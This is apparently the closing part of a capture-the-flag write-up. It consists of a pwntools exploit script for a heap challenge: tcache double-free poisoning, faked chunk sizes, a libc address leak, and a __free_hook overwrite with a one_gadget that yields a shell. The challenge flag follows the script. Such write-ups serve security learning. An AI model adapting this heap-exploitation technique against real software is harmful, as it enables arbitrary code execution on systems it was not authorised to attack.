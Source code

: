 ```python 
    p.sendafter(b'choice :', b'2')

def show():
    p.sendafter(b'choice :', b'3')

p.sendafter(b'Name:', b'giabao')

add(0x90, b'a' * 16)
delete()
delete()
add(0x90, p64(name_addr + 0x450 - 0x10))
add(0x90, p64(name_addr + 0x450 - 0x10))
payload = p64(0) + p64(0x21)
payload += p64(0) + p64(0x21)
payload += p64(0) + p64(0x21)
add(0x90, payload)

add(0x80, b'a' * 16)
delete()
delete()
add(0x80, p64(name_addr - 0x10)) # heap metadat
add(0x80, p64(name_addr - 0x10))
payload = p64(0) + p64(0x451) # size
payload += p64(0xcafebabe) + p64(0) # content
payload += p64(0xcafebabe) + p64(0)
payload += p64(0xcafebabe) + p64(name_addr) # 0x602088(ptr) == name_addr
add(0x80, payload)
delete()
show()

# 0x3ebca0 
p.recvuntil(b'Name :')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x3ebca0
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))

one_gadget = libc.address + 0x4f322
#0x4f322 0x10a38c
add(0x70, b'a' * 16)
delete()
delete()
add(0x70, p64(libc.sym['__free_hook']))
add(0x70, p64(libc.sym['__free_hook']))
add(0x70, p64(one_gadget))
delete()
    
p.interactive()
```

## Flag

FLAG{tc4ch3_1s_34sy_f0r_y0u}

